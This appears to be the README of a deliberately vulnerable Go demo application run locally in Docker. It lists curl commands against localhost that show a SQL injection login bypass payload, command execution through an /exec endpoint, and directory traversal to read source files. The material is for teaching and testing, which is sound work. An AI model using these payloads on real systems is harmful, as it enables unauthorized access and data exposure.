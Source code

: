 **Demo steps**
1. Start containers:
```
cd <tarpit_go>
docker-compose up
```
2. DB Init:
Visit:
http://localhost:3000/init
or
```
curl -X GET http://localhost:3000/dbinit
```
3. Visit http://localhost:3000/login to see the demo; (There are also curl commands version attached)
4. Tear down the environment:
```
control + C
docker-compose down
```

**curl version**
1. Sql injection demo: 
//password='12346" OR ""="'
```
curl -X POST -d "username=admin&password=12346%22+OR+%22%22%3D+%22" http://localhost:3000/login
```
2. Remote code execution:
```
curl -X POST -d "cmd=ls -a" http://localhost:3000/exec
```
3. Directory traversal demo: (login first)
```
curl -X GET http://localhost:3000/image/../demo/demo.go
```
